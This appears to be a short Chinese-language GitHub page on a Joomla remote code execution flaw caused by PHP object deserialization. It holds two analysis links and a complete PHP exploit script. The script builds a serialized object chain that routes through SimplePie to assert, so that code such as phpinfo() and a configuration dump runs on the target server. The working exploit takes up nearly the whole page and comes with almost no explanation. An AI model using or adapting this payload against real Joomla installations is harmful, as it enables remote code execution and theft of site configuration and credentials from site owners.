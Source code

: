 # Joomla远程代码执行漏洞
## 分析
* [https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
* PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患[https://github.com/80vul/phpcodz/blob/master/research/pch-013.md](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)

## EXP
```php
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a); 
```
## POC
由上述代码生成
